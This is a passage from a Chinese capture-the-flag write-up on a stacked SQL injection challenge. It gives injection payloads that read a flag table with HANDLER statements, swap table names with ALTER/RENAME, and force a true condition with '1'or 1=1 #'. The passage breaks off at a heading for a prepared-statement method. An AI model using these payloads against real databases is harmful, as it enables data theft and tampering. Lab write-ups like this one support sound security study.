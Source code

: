payload

```sql
1'; handler `1919810931114514` open;handler `1919810931114514` read first #
```

![20220820234817](assets/20220820234817-1700743077636179.png)

在 wp 中看到其它几种解法, 思路挺好的

### 2)换表名

> 将 words 和 1919810931114514 表互换

alter 语句介绍 [https://www.runoob.com/mysql/mysql-alter.html](https://www.runoob.com/mysql/mysql-alter.html)

```sql
alter table `words` rename to `words1`;
alter table `1919810931114514` rename to `words`;
alter table `words` change `flag` `id` varchar(100) character utf8_general_ci NOT NULL;
```

查询语句是 `select * from words where id = xx`, 如果没有 id 字段的话会报错

不确定 `character utf8_general_ci NOT NULL;` 是否必须, 本地测试发现没有这段也能运行...

之后提交 `1'or 1=1 #`, 因为 id 的内容是 flag, 查不到, 需要构造永真条件

修改表名的另一种写法

```sql
rename table A to B;
```

### 3）预编译+concat拼接

> 预编译 + concat 拼接
